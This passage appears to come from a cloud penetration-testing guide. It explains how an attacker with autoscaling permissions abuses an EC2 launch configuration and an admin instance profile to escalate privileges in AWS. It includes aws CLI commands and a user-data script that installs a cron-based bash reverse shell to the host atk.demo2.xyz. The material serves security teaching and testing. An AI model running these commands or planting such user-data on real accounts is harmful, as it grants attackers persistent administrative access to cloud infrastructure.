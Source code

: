 - the launch configuration creates a template used by the EC2 instances when running;
- the autoscaling group is used to define the scaling configuration and rules.

The attacker can then create an EC2 launch configuration and an autoscaling group with an AMI image which the attacker has access to.
A launch configuration is a template that an EC2 Auto Scaling group uses to launch EC2 instances. When a launch configuration is created, information for the instances such as the ID of the Amazon Machine Image (AMI), the instance type, a key pair, one or more security groups, and a block device mapping are specified.

Abusing also the `iam:ListRoles` permissions the attacker can easily find an admin role with EC2 access like `EC2Admin`.

To find the latest Amazon AMI:

```bash
aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available' | jq -r '.Images | sort_by(.CreationDate) | last(.[]).ImageId'
```

```bash
aws autoscaling create-launch-configuration --launch-configuration-name demo2-LC --image-id ami-0f90b6b11936e1083 --instance-type t1.micro --iam-instance-profile demo2-EC2Admin --associate-public-ip-address --user-data=file://reverse-shell.sh
```

Where in `reverse-shell.sh` there is:

```bash
#!/bin/bash

sudo crontab -l > /tmp/new_cron
echo "* * * * * bash -i >& /dev/tcp/atk.demo2.xyz/443 0>&1" >> /tmp/new_cron
sudo crontab /tmp/new_cron
sudo rm /tmp/new_cron
```

_N.B._: Before creating the launch configuration: `chmod +x ./reverse-shell.sh`

The script just executes a reverse shell using bash, allowing the attacker to access the EC2 instance once started. Generally any kind of reverse shell can be used since the attacker can forge the script; a more complex one can involve obfuscation, more stable connections, download of complex beacons, persistence and malware.
The AMI image used by the attacker must be accessible from the attacker itself and there are some choices:

- an AMI with SSH access using username and password (or a keypair known to the attacker) with attached a public IP address and security groups that allow SSH traffic
- a custom public AMI that on start executes a script/routine to connect to an external machine (i.e. reverse shell)
- an AMI that on start executes a script/routine to connect to an external machine (i.e. reverse shell) using the user-data configuration
- an AMI with vulnerable services exposed using the configured security groups of the AWS account that the attacker can exploit

Now the launch configuration is created; the service needs also an autoscaling policy to start/stop the instances.
